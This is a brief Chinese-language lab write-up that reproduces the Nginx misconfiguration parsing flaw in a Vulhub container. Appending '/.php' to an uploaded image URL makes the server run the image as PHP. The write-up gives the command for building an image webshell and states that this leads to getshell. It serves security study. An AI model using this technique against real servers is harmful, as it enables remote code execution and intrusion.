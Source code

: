 # Nginx 解析漏洞

## 漏洞描述

Nginx解析漏洞复现。

版本信息：

- Nginx 1.x 最新版
- PHP 7.x最新版

由此可知，该漏洞与Nginx、php版本无关，属于用户配置不当造成的解析漏洞。

## 环境搭建

Vulhub直接执行`docker-compose up -d`启动容器，无需编译。

访问`http://your-ip/uploadfiles/nginx.png`和`http://your-ip/uploadfiles/nginx.png/.php`即可查看效果。

## 漏洞复现

正常显示：

![image-20220228101951322](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281019435.png)

增加`/.php`后缀，被解析成PHP文件：

![image-20220228102009950](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281020083.png)

访问`http://your-ip/index.php`可以测试上传功能，上传代码不存在漏洞，但利用解析漏洞即可getshell。

图片马生成命令：

```
copy 1.jpg/b+1.php/a 2.jpg
```

Vulhub镜像上传图片之前需要赋予`/var/www/html`目录写入权限。

![image-20220228103257746](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281032796.png)

访问`http://your-ip/uploadfiles/fb5c81ed3a220004b71069645f112867.png/.php`即可触发解析漏洞。

![image-20220228103543224](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281035883.png)